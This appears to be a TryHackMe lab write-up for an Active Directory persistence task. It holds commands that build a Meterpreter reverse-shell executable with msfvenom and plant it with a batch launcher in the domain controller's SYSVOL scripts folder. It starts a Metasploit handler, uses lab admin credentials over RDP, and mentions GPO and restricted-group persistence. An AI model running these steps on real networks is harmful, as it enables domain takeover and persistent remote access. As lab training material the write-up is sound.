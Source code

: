 > SDprop

> Full controll

## Task 8

```bash
# kali vm

export AD=za.tryhackme.loc
export adminUser=Administrator
export adminPass=tryhackmewouldnotguess1@

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=445 -f exe > f4u.exe

echo 'copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\f4u.exe C:\tmp\f4u.exe && timeout /t 20 && C:\tmp\f4u.exe' > f4u.bat

scp f4u.* $adminUser@$AD@thmdc.$AD:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/

msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST persistad; set LPORT 445;exploit"
```

```bash
export AD=za.tryhackme.loc
export adminUser=Administrator
export adminPass=tryhackmewouldnotguess1@

xfreerdp /v:thmdc.$AD /u:$adminUser /p:$adminPass
```

`win` + `r`  `mmc`

Follow the instructions on THM

`jason.jackson - persisting GPO`

add `AD Users and Computers` to MMC and change a password of a admin-user

```bash
# kali vm

xfreerdp /v:thmserver1.za.tryhackme.loc /u:'t1_jayne.cox' /p:'!F4upassword'
```

Follow the instructions on THM

>Group Policy Management

>Restricted Groups

>Delegation
